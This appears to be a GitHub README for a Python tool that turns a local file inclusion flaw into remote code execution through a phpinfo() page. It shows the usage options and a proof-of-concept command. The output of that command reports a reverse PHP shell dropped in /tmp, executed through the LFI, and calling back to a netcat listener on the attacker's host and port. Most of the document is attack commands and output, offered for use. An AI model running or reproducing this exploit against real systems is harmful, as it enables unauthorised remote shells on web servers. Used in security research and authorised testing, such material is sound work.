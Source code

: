 # LFI to RCE via phpinfo()
Research from ![Link](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)

# Use case

- Found an LFI Vulnerability
- Any script that displays the output of the PHPInfo() function will do. In most cases this will be /phpinfo.php 


# Usage 

```
usage: phpinfolfi_rce.py [-h] -l LFI [-t THREADS] --lhost LHOST --lport LPORT
                         -i PHPINFO [--payload PTYPE] [-e REQEND] [-v VERBOSE]

RCE from LFI with PHPINFO assistance

optional arguments:
  -h, --help            show this help message and exit
  -l LFI, --lfi LFI     the url path of the LFI vuln, per example
                        "http://127.0.0.1:8080/lfi.php?file="
  -t THREADS, --threads THREADS
                        Threads number, set to 10 by default
  --lhost LHOST         The local ip to listen, for rev shell
  --lport LPORT         The local port to listen, for rev shell
  -i PHPINFO, --phpinfo PHPINFO
                        Define the url path of the "phpinfo" script. Per ex:
                        "http://host/phpinfo.php"
  --payload PTYPE       Set the type of payload to use. 1|2|3 By default
                        payload is set to 3
  -e REQEND, --end REQEND
                        Define any end of lfi request, per examlpe "%00" by
                        default the end request is empty
  -v VERBOSE, --verbose VERBOSE
                        Define verbose output. set to False by default
```


# POC

```
$ python phpinfolfi_rce.py -l "http://host/browse.php?file=" --lhost 127.0.0.1 --lport 9001  -t 12  -i "http://host:8080/phpinfo.php"

 ____   ____   ____   ____ _     _       _              _ 
|  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
| |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
|  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
|_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
       \____/ \_\/_/                                      

Find all scripts in: https://github.com/roughiz


LFI With PHPInfo() RCE script
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Spawning worker pool (12)...
  24 /  1000
Got it! Reverse php Shell created in /tmp/IVA1XpPtHGjS.php

Yep! The payload works great !

I will execute the reverse shell, requesting the url: http://host/browse.php?file=/tmp/IVA1XpPtHGjS.php

Verify your nc listenner 127.0.0.1:9001
Shuttin' down...

```

### Nota 

Install the pyfiglet python module like :

```
$ sudo pip install pyfiglet
```

